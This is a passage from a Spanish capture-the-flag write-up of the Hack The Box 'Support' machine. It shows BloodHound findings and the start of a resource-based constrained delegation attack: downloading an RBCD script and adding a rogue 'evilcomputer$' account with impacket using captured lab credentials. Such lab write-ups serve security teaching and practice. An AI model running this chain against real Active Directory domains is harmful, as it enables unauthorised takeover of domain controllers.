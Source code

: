 ```terminal
/home/kali/Documents/tools/bloodhund:-$ curl -L https://ghst.ly/getbhce > docker-compose.yml
/home/kali/Documents/tools/bloodhund:-$ sudo docker compose pull && sudo docker compose up
```

A través del análisis en BloodHound, detecto que el usuario `support` es miembro del grupo `Shared Support Accounts`, el cual posee el permiso `GenericAll` sobre el objeto del equipo `DC.SUPPORT.HTB`.

![](assets/img/htb-writeup-support/support4_2.png)

Esto habilita la posibilidad de llevar a cabo un ataque de [Resource Based Constrained Delegation Attack](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/resource-based-constrained-delegation.html)

---

Descargo la herramienta [tothi-rbcd-attack](https://github.com/tothi/rbcd-attack), la cual permite configurar el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` para habilitar delegación basada en recursos.

```terminal
/home/kali/Documents/htb/machines/support:-$ wget https://raw.githubusercontent.com/tothi/rbcd-attack/refs/heads/master/rbcd.py /home/kali/Documents/tools/
```

Utilizo impacket-addcomputer para crear un objeto de tipo computadora `evilcomputer$` dentro del dominio `support.htb`. Este objeto actuará como entidad controlada por el atacante, desde la cual se ejecutará la delegación. Este equipo falso será el autorizado para suplantar identidades contra la máquina objetivo.

```terminal
/home/kali/Documents/htb/machines/support:-$ impacket-addcomputer -computer-name 'evilcomputer' -computer-pass ev1lP@sS -dc-ip 10.10.11.174 support.htb/support:Ironside47pleasure40Watchful
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account evilcomputer$ with password ev1lP@sS.
```
